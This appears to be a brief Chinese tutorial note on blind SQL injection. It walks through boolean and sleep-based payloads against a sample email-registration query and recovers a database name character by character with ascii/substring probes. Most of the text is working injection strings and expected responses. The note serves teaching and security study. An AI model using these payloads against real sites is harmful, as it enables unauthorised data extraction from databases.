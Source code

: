 # 盲注
{docsify-updated}
## 定义
查询内容无回显的情况下，根据布尔值盲猜ascii码

>例如：注册账号时，查询邮箱是否已被注册
>
> ```sql
> select * from user where email='1@1.com'
> ```
> 显示：该邮箱可以使用

## 获取注入点


### 检验布尔注入

 ```
 select * from user where email='1@1.com' or 1=1 limit 1 -- a'
 ```
> 成功则显示：该邮箱已被注册

 ```
 select * from user where email='1@1.com' or 1=2 limit 1 -- a'
 ```

> 成功则显示：该邮箱可以使用

### 检验延迟注入

 ```
 select * from user where email='1@1.com' or sleep(10) -- a'
 ```
> 成功则显示：该邮箱可以使用

## 利用注入点
### 爆破库名
#### step1: 爆破库名长度
 ```
 select * from user where email='1@1.com' 
 or length(database())>5 limit 1 -- a'
 ```
> 输出:该邮箱可以使用 //false,库名长度小于等于5

 ```
 select * from user where email='1@1.com' 
 or length(database())=4 limit 1 -- a'
 ```
> 输出:该邮箱已被注册 //true,库名长度为4


#### step2: ascii码爆破库名
 ```
 select * from user where email='1@1.com' or ascii(SUBSTR(database(),1,1))=117 limit 1 -- a'
 ```
> 第1位为：u

 ```
 select * from user where email='1@1.com' or ascii(SUBSTR(database(),2,1))=115 limit 1 -- a'
 ```
> 第2位为：s

 ```
 select * from user where email='1@1.com' or ascii(SUBSTR(database(),3,1))=101 limit 1 -- a'
 ```
> 第3位为：e

 ```
 select * from user where email='1@1.com' or ascii(SUBSTR(database(),4,1))=114 limit 1 -- a'
 ```
> 第4位为：r

### 爆破表名
思路和库名差不多，略微繁琐，了解一种以应万变即可，实战用sqlmap跑表名与字段。